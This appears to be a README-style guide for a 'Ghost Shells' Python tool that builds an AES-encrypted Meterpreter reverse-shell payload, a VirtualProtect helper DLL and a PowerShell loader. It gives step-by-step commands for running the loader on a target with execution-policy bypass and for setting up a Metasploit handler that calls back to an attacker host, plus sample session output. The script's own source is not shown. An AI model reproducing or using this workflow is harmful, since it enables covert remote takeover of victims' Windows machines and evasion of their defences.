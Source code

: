 Here's an **automated Python script** that fully implements the **Ghost Shells** technique. This script will:

1. **Generate a Meterpreter Payload** using `msfvenom`.
2. **Encrypt the shellcode using AES (CBC Mode)**.
3. **Embed the encrypted shellcode into a PowerShell script**.
4. **Automatically generate and compile `API.dll`** (for `VirtualProtect` memory modification).
5. **Create a final `execute.ps1` PowerShell script** to:
   - Load `API.dll`.
   - Decrypt the AES shellcode.
   - Allocate executable memory.
   - Execute the shellcode stealthily.

---

### **💻 How to Use**
#### **Step 1: Run the Python Script**
```bash
python3 ghost_shells.py
```
#### **Step 2: Transfer `execute.ps1` and `API.dll` to the Target Machine**
```powershell
powershell -ExecutionPolicy Bypass -File execute.ps1
```
#### **Step 3: Start Metasploit Listener**
```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT <attacker-port>
exploit
```

---

### **📌 How the Python Script Works - Step by Step Example**
---
### **🔹 Step 1: Run the Script**
```bash
python3 ghost_shells.py
```
---
### **🔹 Step 2: The Script Will Prompt for User Input**
```bash
[+] Ghost Shells - Automated Meterpreter Deployment
[?] Enter LHOST (attacker IP): 192.168.1.100
[?] Enter LPORT (listening port): 4444
[+] Generating Meterpreter shellcode...
```
**(It will then generate a Meterpreter shellcode using `msfvenom`)**
```bash
[+] Encrypting shellcode using AES...
[+] Compiling API.dll...
[+] PowerShell script 'execute.ps1' created.
[+] Ghost Shells deployment ready!
```
---
### **🔹 Step 3: The Script Will Automatically Start a Metasploit Listener**
```bash
[+] Starting Metasploit listener...
```
The script will create a **Metasploit resource file** (`msf_listener.rc`) with the following content:
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
set ExitOnSession false
exploit -j
```
Then, it **automatically starts Metasploit**:
```bash
msfconsole -r msf_listener.rc
```
---
### **🔹 Step 4: Transfer and Execute the Payload on the Target**
After the script finishes, you'll have **two files**:
- `API.dll` (used for `VirtualProtect`)
- `execute.ps1` (decrypts and executes Meterpreter shellcode)

**Now, transfer these files to the target machine and run:**
```powershell
powershell -ExecutionPolicy Bypass -File execute.ps1
```
---
### **🔹 Step 5: The Reverse Shell is Established**
Once the payload is executed, the Meterpreter session will be opened:
```bash
[*] Started reverse TCP handler on 192.168.1.100:4444
[*] Meterpreter session 1 opened (192.168.1.100:4444 -> 192.168.1.200:49627)
```
---
### **✅ Final Confirmation**
Now, you have a full **Meterpreter shell**:
```bash
meterpreter > sysinfo
Computer        : TARGET-PC
OS             : Windows 10 (10.0 Build 19044)
Meterpreter    : x64/windows
```
---
### **🔹 Pre-Installed Tools Needed in Kali Linux**
To execute this **automated Ghost Shells Python script**, you need the following **tools pre-installed** in **Kali Linux**:

| **Tool**          | **Purpose** |
|-------------------|------------|
| **Metasploit Framework (`msfvenom`, `msfconsole`)** | To generate the **Meterpreter shellcode** and start a **listener** |
| **Mono (`mcs`)** | To compile `API.cs` into `API.dll` for **VirtualProtect memory modification** |
| **Python3** | To run the automation script |
| **Python Crypto (`pycryptodome`)** | To **encrypt the shellcode using AES** |
| **PowerShell (Kali)** | To test **PowerShell execution** before deploying to Windows |

---

### **🔧 Install Required Tools**
#### **1️⃣ Update and Upgrade Kali**
Run the following commands to ensure your Kali is up to date:
```bash
sudo apt update && sudo apt upgrade -y
```

#### **2️⃣ Install the Metasploit Framework**
Metasploit is **pre-installed** in Kali, but if missing, install it:
```bash
sudo apt install metasploit-framework -y
```
✅ **Verify installation**:
```bash
msfconsole --version
```

#### **3️⃣ Install `Mono` (To Compile API.dll)**
Since we use C# to compile `API.dll`, install `Mono`:
```bash
sudo apt install mono-mcs -y
```
✅ **Verify installation**:
```bash
mcs --version
```

#### **4️⃣ Install `pycryptodome` (For AES Encryption)**
The script uses Python's **Crypto module** for AES encryption. Install it using:
```bash
pip3 install pycryptodome
```
✅ **Verify installation**:
```bash
python3 -c "from Crypto.Cipher import AES; print('Crypto Installed')"
```

#### **5️⃣ (Optional) Install PowerShell in Kali**
If you want to test the **PowerShell script** in Kali before deploying to Windows, install PowerShell:
```bash
sudo apt install powershell -y
```
✅ **Run PowerShell in Kali**:
```bash
pwsh
```

---

### **✅ Final Check: Run the Script**
After installing all dependencies, run:
```bash
python3 ghost_shells.py
```
If everything is installed correctly, it should:
✔ Generate the **Meterpreter shellcode**  
✔ Encrypt the **shellcode using AES**  
✔ Compile **API.dll** using `mcs`  
✔ Start **Metasploit listener**  
✔ Generate **execute.ps1** for Windows  

---
### **🚀 You're Now Ready to Deploy Ghost Shells!**
Help me if you face any issue in the code, or correct me if anything is wrong
